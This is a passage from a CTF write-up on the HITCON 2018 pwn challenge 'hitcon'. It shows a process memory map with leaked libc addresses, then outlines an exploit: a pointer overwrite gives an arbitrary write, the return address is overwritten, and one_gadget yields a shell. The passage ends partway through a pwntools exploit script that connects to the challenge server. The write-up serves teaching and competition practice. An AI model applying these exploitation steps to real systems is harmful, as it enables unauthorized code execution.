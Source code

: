 ```
0x00007f48b29a7000 0x00007f48b29a8000 r--p      /lib/x86_64-linux-gnu/libm-2.27.so
0x00007f48b29a8000 0x00007f48b29a9000 rw-p      /lib/x86_64-linux-gnu/libm-2.27.so
0x00007f48b29a9000 0x00007f48b2b90000 r-xp      /home/tens/CTF/2018/HITCON/pwn/hitcon/libc.so.6
0x00007f48b2b90000 0x00007f48b2d90000 ---p      /home/tens/CTF/2018/HITCON/pwn/hitcon/libc.so.6
0x00007f48b2d90000 0x00007f48b2d94000 r--p      /home/tens/CTF/2018/HITCON/pwn/hitcon/libc.so.6
0x00007f48b2d94000 0x00007f48b2d96000 rw-p      /home/tens/CTF/2018/HITCON/pwn/hitcon/libc.so.6

```
Now we have thread stack and libc address.

#### second question
When we ask the question, we can override a pointer so that we got a arbitrarily write. 
We override the input name function return address so we can control rip.
Covered into one_gadget to get shell.


```python=
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
import sys
import time
import random
host = '13.115.73.78'
port = 31733

binary = "./hitcon"
context.binary = binary
elf = ELF(binary)
try:
  libc = ELF("./libc.so.6")
  log.success("libc load success")
  system_off = libc.symbols.system
  log.success("system_off = "+hex(system_off))
except:
  log.failure("libc not found !")

def Schedule(t ,Author):
  r.recvuntil(" Exit\n")
  r.sendline("3")
  time.sleep(0.01)
  r.sendline(str(t) + " " + str(Author))
  time.sleep(0.01)
  r.sendline("0 0")

def start():
  r.recvuntil(" Exit\n")
  r.sendline("4")

if len(sys.argv) == 1:
  r = process([binary, "0"], env={"LD_LIBRARY_PATH":"."})

else:
  r = remote(host ,port)

if __name__ == '__main__':

  da = 1
  orange = 4
  angel = 7
  leak = 9

  Schedule(3,leak)
  Schedule(2,8)
```